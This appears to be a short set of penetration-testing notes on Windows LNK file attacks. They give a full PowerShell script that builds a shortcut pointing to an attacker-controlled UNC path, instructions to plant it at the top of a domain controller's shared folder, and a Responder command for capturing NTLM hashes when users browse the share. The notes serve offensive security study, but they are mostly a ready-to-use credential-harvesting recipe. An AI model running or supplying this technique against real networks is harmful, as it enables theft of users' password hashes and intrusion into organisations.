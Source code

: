 ## LNK File Attacks
- Kinda like setting up a watering hole
- Generate a malicious file with PowerShell to dump into a file share

### Malicious File

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
- LNK file tries to resolve to a PNG
- The image points back to attacker machine
- Create the file with elevated PowerShell
- Append `@` or `~` to file name to put it to the top of the list
- Put file in DC shared folder

### Capture Hash
- If we are running Responder and the file is triggered, we can capture a hash
- Run responder: `sudo responder -I eth0 -dPv`

  ![image](https://github.com/user-attachments/assets/c81152b8-3858-47cd-a7a0-28767455dadc)

- Hashes coming in hot
- Consider trying netexec slinky module
